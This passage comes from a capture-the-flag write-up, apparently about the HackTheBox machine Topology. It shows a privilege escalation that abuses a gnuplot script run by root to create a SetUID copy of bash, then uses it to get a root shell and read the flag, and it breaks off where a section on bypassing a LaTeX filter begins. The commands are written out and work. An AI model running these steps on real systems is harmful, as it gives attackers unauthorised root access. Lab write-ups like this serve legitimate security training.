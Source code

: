 #### Shell

I’ll update my `.plt` file to create a copy of `bash` owned by root with the SetUID/SetGID bits on:

```

vdaisley@topology:/opt$ cat > /opt/gnuplot/0xdf.plt << EOF
> system("cp /bin/bash /tmp/0xdf")
> system("chmod 6777 /tmp/0xdf")
> EOF

```

Next minute, the file is there, and the user and group execute permissions are `s`, showing that it worked:

```

vdaisley@topology:/opt$ ls -l /tmp/0xdf 
-rwsrwsrwx 1 root root 1183448 Sep  7 14:10 /tmp/0xdf

```

I’ll run that with `-p` to not drop privs, and get a shell as root:

```

vdaisley@topology:/opt$ /tmp/0xdf -p
0xdf-5.0# id
uid=1007(vdaisley) gid=1007(vdaisley) euid=0(root) egid=0(root) groups=0(root),1007(vdaisley)

```

And read the second flag:

```

0xdf-5.0# cat /root/root.txt
76b6f060************************

```

## Beyond Root - Unintendeds / Filter Bypass

### equation.php

#### Interaction

The PHP on the site that handles the LaTeX is in `equation.php`. Submitting the form generates a GET request to a URL like:

![image-20231102142008301](/img/image-20231102142008301.png)

#### Source

Looking at the source as root, if `eqn` is set, then it runs this code to filter the input:

